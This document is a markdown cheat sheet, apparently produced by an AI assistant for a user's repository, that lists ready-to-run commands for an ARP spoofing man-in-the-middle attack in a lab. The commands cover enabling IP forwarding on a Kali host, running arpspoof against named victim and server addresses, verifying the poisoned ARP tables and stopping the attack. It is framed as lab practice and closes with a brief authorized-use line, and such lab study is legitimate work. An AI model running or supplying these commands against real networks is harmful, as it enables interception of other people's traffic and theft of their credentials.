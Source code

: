 Here’s the `arp_spoofing_commands.md` file with your IPs and clear commands for your repo:

````markdown
# ARP Spoofing Commands Cheat Sheet

This document lists the essential ARP spoofing commands to perform a Man-in-the-Middle (MITM) attack in your lab environment.

---

## Network Setup IP Addresses

| Role       | IP Address      |
|------------|-----------------|
| Kali (Attacker)  | 192.169.200.3  |
| Ubuntu Server (DVWA) | 192.169.200.4  |
| Ubuntu Victim     | 192.169.200.5  |

---

## Step 1: Enable IP Forwarding on Kali

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
````

Make it permanent:

```bash
nano /etc/sysctl.conf
# Uncomment or add:
net.ipv4.ip_forward = 1
# Then apply:
sysctl -p
```

---

## Step 2: Launch ARP Spoofing

Open two terminal windows on Kali and run the following commands.

### Spoof the Victim — tell the Victim Kali is the Server

```bash
arpspoof -i eth0 -t 192.169.200.5 192.169.200.4
```

### Spoof the Server — tell the Server Kali is the Victim

```bash
arpspoof -i eth0 -t 192.169.200.4 192.169.200.5
```

> Replace `eth0` with your actual network interface name (check with `ip a`).

---

## Step 3: Verify ARP Spoofing

Run the following commands to check that ARP tables on victim and server are poisoned.

### On Victim:

```bash
arp -n
```

Look for Kali’s MAC address associated with Server’s IP (`192.169.200.4`).

### On Server:

```bash
arp -n
```

Look for Kali’s MAC address associated with Victim’s IP (`192.169.200.5`).

---

## Step 4: Stop ARP Spoofing

Once done, disable IP forwarding if needed:

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

Terminate `arpspoof` processes with:

```bash
pkill arpspoof
```

---

## Notes

* This attack works only if attacker, victim, and server are on the same LAN.
* Use responsibly and only in authorized environments.

---

